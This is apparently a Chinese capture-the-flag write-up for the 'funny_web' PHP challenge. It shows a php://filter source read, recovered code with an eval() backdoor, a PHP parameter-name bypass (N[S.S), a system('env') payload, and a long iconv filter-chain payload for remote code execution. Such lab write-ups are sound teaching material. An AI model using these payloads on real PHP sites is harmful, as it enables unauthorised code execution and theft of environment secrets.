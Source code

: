 # 【NSSRound#8 Basic】funny_web


# [SWPUCTF 2022 新生赛]funny_web

## 思路

* 一上来看见一个`file=`

  ```
  http://node7.anna.nssctf.cn:28476/index.php?file=
  ```

  考虑php伪协议

  页面啥也没有，只有一个空白index.php尝试读这个php

  ```
  ?file=php://filter/read=convert.base64-encode/resource=index.php
  ```

* 读出base64编码的源码，解码得到：

  ```
  &lt;?php
  error_reporting(0);
  ​
  if (isset($_GET[&#39;N_S.S&#39;])) {
      eval($_GET[&#39;N_S.S&#39;]);
  }
  ​
  if(!isset($_GET[&#39;file&#39;])) {
      header(&#39;Location:/index.php?file=&#39;);
  } else {
      $file = $_GET[&#39;file&#39;];
  ​
      if (!preg_match(&#39;/\.\.|la|data|input|glob|global|var|dict|gopher|file|http|phar|localhost|\?|\*|\~|zip|7z|compress/is&#39;, $file)) {
          include $file;
      } else {
          die(&#39;error.&#39;);
      }
  }
  ```

  发现有GET传参`N_S.S`可以执行命令。但是一直咋传都不行。看别的师傅博客发现是一个php特性。

  &gt; [!NOTE]
  &gt;
  &gt; **一个PHP特性**
  &gt;
  &gt; 在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候，php会将怪异的变量名转换成有效的
  &gt;
  &gt; 在进行解析时会**删除空白符**，并将`空格`、`&#43;`、`.`、`[` 转换为**下划线**。但是用一个特性是可以绕过的，就是当 `[` 提前出现后，`[` 会转换成下划线，而**后面的字符就不会再被转义了**。

  然后绕过这个特性用`N[S.S`

  然后可以直接用来rce

  不过唯一的问题就是这flag不在根目录

  要查环境`env`，`system(&#39;env&#39;)`

* 另一种姿势：

  利用 PHP Base64 Filter 宽松的解析，通过 `iconv filter` 等编码组合构造出特定的 PHP 代码进而完成无需**临时文件**的 RCE。来自[Gqleung佬的wp](https://www.ctfer.vip/note/set/1116)

  ```
  ?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=index.php&amp;0=env
  ```

  

## Payload

* 
?N[S.S=system(&#39;env&#39;);
* 



## 总结

- RCE
- PHP伪协议

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-nssround%238-basicmydoor/  

